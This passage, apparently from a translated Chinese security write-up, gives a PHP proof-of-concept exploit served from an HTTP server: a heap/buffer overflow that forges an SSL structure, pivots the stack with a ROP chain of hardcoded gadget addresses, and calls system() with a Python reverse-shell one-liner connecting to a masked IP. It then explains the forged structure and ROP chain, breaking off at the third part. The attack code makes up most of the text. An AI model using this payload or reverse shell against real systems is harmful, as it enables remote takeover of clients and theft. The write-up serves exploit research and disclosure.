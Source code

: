 我们将php版的PoC放置在HTTP服务器上：

```
&lt;?php
    function p64($address) `{`
        $low = $address &amp; 0xffffffff;
        $high = $address &gt;&gt; 32 &amp; 0xffffffff;
        return pack("II", $low, $high);
    `}`
    $junk = 0x4141414141414141;
    $nop_func = 0x32FC078;

    $gadget  = p64($junk);
    $gadget .= p64($nop_func - 0x60);
    $gadget .= p64($junk);
    $gadget .= p64(0x110FA1A); // # start here # pop r13 ; pop r14 ; pop rbp ; ret ;
    $gadget .= p64($junk);
    $gadget .= p64($junk);
    $gadget .= p64(0x110fa15); // push rbx ; or byte [rbx+0x41], bl ; pop rsp ; pop r13 ; pop r14 ; pop rbp ; ret ;
    $gadget .= p64(0x1bed1f6); // pop rax ; ret ;
    $gadget .= p64(0x58);
    $gadget .= p64(0x04410f6); // add rdi, rax ; mov eax, dword [rdi] ; ret  ;
    $gadget .= p64(0x1366639); // call system ;
    $gadget .= "python -c 'import socket,sys,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],12345));[os.dup2(s.fileno(),x) for x in range(3)];os.system(sys.argv[2]);' xx.xxx.xx.xx /bin/sh;";

    $p  = str_repeat('AAAAAAAA', 1024+512-4); // offset
    $p .= $gadget;
    $p .= str_repeat('A', 0x1000 - strlen($gadget));
    $p .= $gadget;
?&gt;
&lt;a href="javascript:void(0);&lt;?=$p;?&gt;"&gt;xxx&lt;/a&gt;
```

这个PoC可以分成3大部分：

1、伪造的SSL结构。

`SSL`结构距离我们的缓冲区保持一定偏移量，因此我们可以准确伪造这个结构。为了避免目标崩溃，我们将`method`指向包含`void`函数指针的某个位置。此时该参数为`SSL`自身结构（`s`）。然而`method`前只有8字节可用，我们不能在HTTP服务端上简单调用`system("/bin/sh");，`因此这个空间不足以运行我们的反弹shell命令。不过这里要感谢这个庞大的程序文件，我们很容易找到许多ROP gadget。比如我们就找到了方便stack pivot的一个gadget：

```
push rbx ; or byte [rbx+0x41], bl ; pop rsp ; pop r13 ; pop r14 ; pop rbp ; ret ;
```

因此我们将`handshake_func`设置为这个gadget，将`rsp` move到我们的`SSL`结构，进一步发起ROP攻击。

2、ROP链

这里的ROP链比较简单。我们只需简单前移`rdi`，就可以为我们的反弹shell命令预留足够的空间。

3、溢出字符串
